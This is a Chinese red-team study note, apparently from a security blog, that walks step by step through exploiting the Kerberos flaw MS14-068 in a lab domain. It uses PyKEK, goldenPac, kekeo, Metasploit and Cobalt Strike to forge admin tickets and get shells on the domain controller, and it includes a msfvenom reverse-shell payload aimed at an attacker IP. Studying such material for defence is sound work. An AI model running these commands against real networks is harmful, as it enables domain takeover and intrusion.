 ```yaml
---
title: 【内网学习笔记】27、Kerberos 域用户提权漏洞
date: 2021-09-24 10:05:20
id: 210924-100520
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109231733653.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 0、前言

在 2014 年微软修复了 Kerberos 域用户提权漏洞，即 MS14-068，CVE 编号为 CVE-2014-6324，该漏洞影响了 Windows Server 2012 R2 以下的服务器，该漏洞允许 RT 将任意用户权限提升至域管级别。

不过从漏洞年代就知道这已经是个远古时代的漏洞，现实中已经很少会碰到了，这里就简单记录下，顺便熟悉熟悉工具的用法。

14-068 产生的原因主要在于用户可以利用伪造的票据向认证服务器发起请求，如果用户伪造域管的票据，服务端就会把拥有域管权限的服务票据返回回来。

## 1、PyKEK

PyKEK 是一个利用 Kerberos 协议进行渗透的工具包，下载地址：[https://github.com/mubix/pykek](https://github.com/mubix/pykek)

使用 PyKEK 可以生成一个高权限的服务票据，之后通过 mimikatz 将服务票据导入到内存中。

MS 14-068 的补丁为：KB3011780，通过 wmic 查看补丁情况

```
wmic qfe get hotfixid | findstr KB3011780
```

查看当前用户 SID

```
whoami /user
```

或者使用 wmic 

```
wmic useraccount get name,sid
```

生成高权限票据，-d 指定域控地址

```
python2 ms14-068.py -u jack@0day.org -s S-1-5-21-1812960810-2335050734-3517558805-1133 -d 192.168.3.142 -p Aa123456
```

打开 mimikatz 清除当前内存中的票据信息

```
kerberos::purge
```

将高权限票据注入内存

```
kerberos::ptc "TGT_jack@0day.org.ccache"
```

使用 net use 连接域控后，使用 psexec 获取 Shell

> 这里 net ues 使用 IP 可能会失败，因此在此使用机器名进行连接 

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109231733653.png)

## 2、GoldenPac

goldenPac.py 是一个用于对 Kerberos 协议进行测试的工具，它集成在 impacket 工具包里。

Kali 在使用之前需要先安装 Kerberos 客户端

```
apt-get install krb5-user -y
```

利用 goldenPac.py 获取 Shell

```
python3 goldenPac.py 0day.org/jack:Aa123456@OWA2010SP3.0day.org
```

> 这里使用 IP 进行连接会连接不成功，只能使用主机名，因此可以在 hosts 文件中添加主机名对应的 IP

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109231746641.png)

goldenPac.py 是通过 PsExec 获得 Shell 的，因此会产生大量的日志，而且现在这种连接方式也已经被各大杀软所拦截。

## 3、kekeo

kekeo 也是一个工具集，其中包含了 ms14-068 的利用模块，kekeo 下载地址：[https://github.com/gentilkiwi/kekeo](https://github.com/gentilkiwi/kekeo)

使用之前需要先清除票据

```
klist purge
```

然后直接使用 kekeo 生成高权限票据

```
kekeo.exe "exploit::ms14068 /domain:0day.org /user:jack /password:Aa123456 /ptt" "exit"
```

之后就可以直接 dir 域控或者 PsExec 连接到域控了

## 4、MSF

MSF 中也有 MS 14-086 的提权 EXP，不过需要结合 mimikatz 进行利用

```
use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
set domain 0day.org
set password Aa123456
set user jack
set user_sid  S-1-5-21-1812960810-2335050734-3517558805-1133
set rhosts OWA2010SP3.0day.org
run
```

设置好域名、域控 IP、密码、用户、SID 后运行，将会获取一个 bin 文件

由于 MSF 里不支持 bin 文件的导入，因此需要 mimikatz 对其进行格式转换

```
kerberos::clist "20210923061821_default_192.168.3.142_windows.kerberos_484249.bin" /export
```

之后，生成一个木马

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.214.74 lport=4444 -f exe > shell.exe
```

将木马复制到目标主机上，并使其上线到 MSF

获得会话后，将刚才 mimikatz 转换后的 kirbi 文件导入到会话中

```
load kiwi
kerberos_ticket_use /tmp/0-00000000-jack@krbtgt-0DAY.ORG.kirbi
background
```

之后使用 current_user_psexec 模块

```
use exploit/windows/local/current_user_psexec
set session 2
set rhosts OWA2010SP3.0day.org
set payload windows/meterpreter/reverse_tcp
set lhost 172.16.214.74
run
```

然后就会返回高权限的会话

> 不过 MSF 在使用过程中报错了，网上一查发现别人也有这个错误，暂时还不清楚解决的方法

## 5、CS

先利用前面的 ms14-068.py 生成一个 ccache 文件，之后使用 KrbCredExport 将 ccache 文件转为 kirbi 格式

KrbCredExport 下载地址：[https://github.com/rvazarkar/KrbCredExport](https://github.com/rvazarkar/KrbCredExport)

```
python2 KrbCredExport.py TGT_jack@0day.org.ccache user.ticket
```

接着使用 CS 的 kerberos_ticket_use 加载 ticket，之后就能访问到域控了

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109240943968.png)

此时想让域控上线自然也是没问题的了，可以先添加一个域控地址的 target，然后选择 PsExec ，勾选上 use session's current access token 通过 jack 的会话上线即可。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202109241000974.png)

> 参考文章：
>
> [https://www.jianshu.com/p/27730ab4a6db](https://www.jianshu.com/p/27730ab4a6db)
>
> [https://www.cnblogs.com/websecyw/p/11835830.html](https://www.cnblogs.com/websecyw/p/11835830.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)




